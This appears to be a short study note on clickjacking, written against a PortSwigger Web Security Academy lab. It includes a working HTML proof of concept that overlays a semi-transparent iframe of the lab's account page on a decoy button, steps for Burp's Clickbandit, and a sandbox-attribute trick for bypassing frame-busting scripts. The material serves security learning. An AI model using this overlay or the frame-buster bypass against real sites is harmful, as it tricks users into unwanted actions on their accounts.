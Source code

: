 ```yaml
---
layout: blank
pagetitle: Clickjacking
---
```


**Clickjacking PoC**

```html
<style>
    iframe {
        position:relative;
        width:99vw;
        height: 99vh;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:400px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a96005403001104812e3ea900bf0098.web-security-academy.net/my-account"></iframe>
```

**Clickbandit**
- Used to automatically generate PoCs
- Steps:
  - Burp Menu -> Clickbandit
  - Paste the scripts in the JS console
  - Click start, perform actions, click finish to record
  - Save

**Scripts Blocking Iframes**
- Sometimes websites have scripts checking to make sure iframes are visible and the main page is the top menu
- Can usually be circumvented using iframe `sandbox` attribute
  - `<iframe id="victim_website" src="https://{vulnerable_site}.com" sandbox="allow-forms"></iframe>`
  - Clickbandit supports this